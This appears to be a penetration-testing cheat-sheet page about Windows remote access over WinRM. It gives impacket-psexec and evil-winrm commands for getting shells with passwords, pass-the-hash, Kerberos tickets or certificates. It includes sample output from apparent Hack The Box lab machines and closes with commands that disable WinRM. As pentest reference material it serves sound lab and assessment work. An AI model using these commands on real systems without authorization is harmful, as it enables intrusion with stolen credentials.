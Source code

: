 ```yaml
---
title: "Winrm"
date: 2024-7-27
tags: ["Kerberos", "Pass-The-Hash", "RCE", "Evil-Winrm", "Windows", "Pass-The-Ticket", "Pass-The-Cert", "Winrm", "Psexec"]
---
```


### Psexec

{{< tab set1 tab1 >}}Password{{< /tab >}}
{{< tab set1 tab2 >}}Hash{{< /tab >}}
{{< tabcontent set1 tab1 >}}

```console
# Domain auth
impacket-psexec '<DOMAIN>/<USER>:<PASSWORD>@<TARGET>'
```

```console
# Local auth
impacket-psexec '<USER>:<PASSWORD>@<TARGET>'
```

{{< /tabcontent >}}
{{< tabcontent set1 tab2 >}}

```console
# Domain auth
impacket-psexec '<DOMAIN>/<USER>@<TARGET>' -hashes :<HASH>
```

```console
# Local auth
impacket-psexec '<USER>@<TARGET>' -hashes :<HASH>
```

{{< /tabcontent >}}

### Evil-Winrm

{{< tab set2 tab1 >}}Password{{< /tab >}}
{{< tab set2 tab2 >}}Hash{{< /tab >}}
{{< tab set2 tab3 >}}Kerberos{{< /tab >}}
{{< tab set2 tab4 >}}crt & key{{< /tab >}}
{{< tabcontent set2 tab1 >}}

```console
evil-winrm -i <TARGET> -u '<USER>' -p '<PASSWORD>'
```

```console {class=sample-code}
$ evil-winrm -i 127.0.0.1 -u dr.zaiuss -p 'qwe123QWE!@#'
                                        
Evil-WinRM shell v3.5
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Dr.Zaiuss\Documents>
```

{{< /tabcontent >}}
{{< tabcontent set2 tab2 >}}

```console
evil-winrm -i <TARGET> -u '<USER>' -H <HASH> 
```

{{< /tabcontent >}}
{{< tabcontent set2 tab3 >}}

```console
# Step 1: Edit '/etc/krb5.conf' (All in uppercase)

[libdefaults]
    default_realm = <DOMAIN>

[realms]
    <DOMAIN> = {
        kdc = <DC>:88
        admin_server = <DC>
        default_domain = <DOMAIN>
    }
    
[domain_realm]
    .domain.internal = <DOMAIN>
    domain.internal = <DOMAIN>
```

```console {class="sample-code"}
[libdefaults]
    default_realm = WINDCORP.HTB

[realms]
    WINDCORP.HTB = {
        kdc = HOPE.WINDCORP.HTB:88
        admin_server = HOPE.WINDCORP.HTB
        default_domain = WINDCORP.HTB
    }
    
[domain_realm]
    .domain.internal = WINDCORP.HTB
    domain.internal = WINDCORP.HTB
```

```console
# Step 2: export .ccache
export KRB5CCNAME=<CCACHE>
```

```console {class="sample-code"}
$ export KRB5CCNAME=winrm_user.ccache
```

```console
# Step 3: Connect
sudo ntpdate -s <DC_IP> && evil-winrm -i <TARGET> -r <DOMAIN>
```

```console {class="sample-code"}
$ evil-winrm -i dc.absolute.htb -r absolute.htb
                                        
Evil-WinRM shell v3.5
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\winrm_user\Documents> 
```

{{< /tabcontent >}}
{{< tabcontent set2 tab4 >}}

```console
evil-winrm -i <TARGET> -S -k auth.key -c auth.crt
```

{{< /tabcontent >}}

### Disable Winrm

```console
Disable-PSRemoting -Force
```

```console
Stop-Service WinRM -PassThru
```

```console
Set-Service WinRM -StartupType Disabled -PassThru
```